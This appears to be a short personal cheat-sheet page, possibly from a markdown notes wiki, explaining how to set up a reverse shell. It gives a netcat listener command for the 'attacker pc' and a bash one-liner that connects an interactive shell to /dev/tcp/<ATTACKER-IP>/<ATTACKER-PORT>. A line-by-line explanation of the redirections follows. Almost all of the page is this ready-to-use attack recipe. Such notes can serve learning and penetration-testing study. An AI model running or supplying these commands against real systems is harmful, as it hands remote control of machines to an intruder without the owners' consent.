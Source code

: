 [[INDEX]] [[CHATGPT]]

# reverse shell  

## listen on the attacker pc  
`nc -vlp <PORT>` 

## create a reverse shell on the target pc in bash:
`bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1`  
- The bash -i command starts an interactive bash shell.
- The >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> redirects standard output and standard error to a TCP connection to the attacker's IP address and port number.
- The 0>&1 redirects standard input to the same TCP connection.


